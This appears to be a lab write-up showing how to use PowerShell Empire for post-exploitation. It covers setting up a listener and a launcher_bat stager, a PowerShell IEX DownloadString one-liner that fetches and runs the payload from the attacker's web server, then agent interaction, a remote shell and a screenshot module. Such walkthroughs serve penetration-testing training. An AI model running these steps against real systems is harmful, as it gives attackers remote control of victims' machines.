 # Welcome to Cyber Secure Labs


## Working with the newest version of Powershell Empire

Public Site for sharing security writes

Write-up by: Cybersec


## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./img/pwr/Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./img/pwr/Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./img/pwr/Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./img/pwr/Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./img/pwr/Untitled%204.png)

![Untitled](./img/pwr/Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./img/pwr/Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./img/pwr/Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./img/pwr/Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./img/pwr/Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./img/pwr/Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./img/pwr/Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./img/pwr/Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./img/pwr/Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./img/pwr/Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./img/pwr/Untitled%2015.png)

![Untitled](./img/pwr/Untitled%2016.png)
